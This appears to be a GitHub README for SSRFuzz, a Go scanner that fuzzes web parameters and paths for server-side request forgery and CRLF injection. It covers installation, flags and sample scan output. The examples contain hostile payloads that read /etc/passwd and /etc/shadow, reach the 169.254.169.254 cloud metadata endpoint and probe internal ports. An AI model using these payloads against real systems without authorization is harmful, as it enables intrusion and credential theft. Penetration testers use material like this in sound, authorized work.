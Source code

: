 # SSRFUZZ

SSRFuzz is a tool to find Server Side Request Forgery vulnerabilities, with CRLF chaining capabilities.

## Why?
- I wanted to write a tool in Golang for concurrency
- I wanted to fuzz parameters for SSRF vulnerablities, as well as fuzz _both_ paths and parameters for CRLF injections
- I was inspired by Orange's work for chaining these types of vulnerabilities together (https://blog.orange.tw)

## Installation

Run the following command to install:

```bash
go get -u github.com/ryandamour/ssrfuzz
```

## Usage

```go

  ██████   ██████  ██▀███    █████▒█    ██ ▒███████▒▒███████▒
▒██    ▒ ▒██    ▒ ▓██ ▒ ██▒▓██   ▒ ██  ▓██▒▒ ▒ ▒ ▄▀░▒ ▒ ▒ ▄▀░
░ ▓██▄   ░ ▓██▄   ▓██ ░▄█ ▒▒████ ░▓██  ▒██░░ ▒ ▄▀▒░ ░ ▒ ▄▀▒░ 
  ▒   ██▒  ▒   ██▒▒██▀▀█▄  ░▓█▒  ░▓▓█  ░██░  ▄▀▒   ░  ▄▀▒   ░
▒██████▒▒▒██████▒▒░██▓ ▒██▒░▒█░   ▒▒█████▓ ▒███████▒▒███████▒
▒ ▒▓▒ ▒ ░▒ ▒▓▒ ▒ ░░ ▒▓ ░▒▓░ ▒ ░   ░▒▓▒ ▒ ▒ ░▒▒ ▓░▒░▒░▒▒ ▓░▒░▒
░ ░▒  ░ ░░ ░▒  ░ ░  ░▒ ░ ▒░ ░     ░░▒░ ░ ░ ░░▒ ▒ ░ ▒░░▒ ▒ ░ ▒
░  ░  ░  ░  ░  ░    ░░   ░  ░ ░    ░░░ ░ ░ ░ ░ ░ ░ ░░ ░ ░ ░ ░
      ░        ░     ░               ░       ░ ░      ░ ░    
                                           ░        ░        

===============================================================
SSRFUZZ 1.2
by Ryan D'Amour @ryandamour 
===============================================================A scanner for all your SSRF Fuzzing needs

Usage:
  ssrfuzz scan [flags]

Flags:
  -b, --call-back string       Add callback for SSRF fuzzing (ie: https://github.com/ropnop/serverless_toolkit/tree/master/ssrf_slack)
  -c, --cookie string          Cookie to use for requests
      --crlf-path              Add CRLF payloads to all available paths (ie: site.com/%0Atest.php)
      --delay int              The time each threads waits between requests in milliseconds (default 100)
  -d, --domains string         Location of domains with parameters to scan
  -h, --help                   help for scan
  -x, --http-method string     HTTP Method - GET or POST (default "GET")
  -o, --output string          Location to save results
      --skip-crlf              Skip CRLF fuzzing
      --skip-network           Skip network fuzzing
      --skip-scheme            Skip scheme fuzzing
  -s, --slack-webhook string   Slack webhook to send findings to a channel
  -t, --threads int            Number of threads to run ssrfuzz on (default 50)
      --timeout int            The amount of time needed to close a connection that could be hung (default 10)
  -u, --user-agent string      User agent for requests (default "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36")
  -v, --verbose                verbose output
```

```bash
Usage: 
echo "http://url_to_fuzz" | ssrfuzz scan
cat file_of_domains.txt | ssrfuzz scan
ssrfuzz scan -d file_of_domains.txt
```

```go
* Scanning http and scheme payloads w/ crlf:

echo "http://192.168.1.10/test.php?u=" | go run main.go scan
 
[!] Scheme payload match:
* http://192.168.1.10/test.php?u=file://etc/passwd 200

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.1.0.0:80 200
* http://192.168.1.10/test.php?u=http://127.1.0.0:8080 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:443 500
* http://192.168.1.10test.php?u=http://127.1.0.0:22 500
* http://192.168.1.10/test.ph?u=http://127.1.0.0:25 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:445 500

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
```

```go
* Scanning only http payloads w/ crlf:

echo "http://192.168.1.10/test.php?u=" | go run main.go scan --skip-scheme

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:443%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:443%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:25%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:25%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:22%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:22%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:445%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:445%23%OA 500
```

```go
* Scanning only http payloads w/o crlf:

echo "http://192.168.1.10/test.php?u=" | go run main.go scan --skip-scheme --skip-crlf

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.1.0.0:80 200
* http://192.168.1.10/test.php?u=http://127.1.0.0:8080 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:443 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:22 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:25 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:445 500
```

```go
* Scanning only scheme payloads w/o crlf:

echo "http://192.168.1.10/test.php?u=" | go run main.go scan --skip-network --skip-crlf

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=file:///etc/passwd 200
* http://192.168.1.10/test.php?u=file:///etc/shadow 500
* http://192.168.1.10/test.php?u=file://169.254.169.254/ 500
```


## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)

## Sponsored By
[Stage2Security](https://www.stage2sec.com)
![alt text](https://miro.medium.com/max/168/1*Pzr_iwx12ycGpGg0K0Yauw.png)
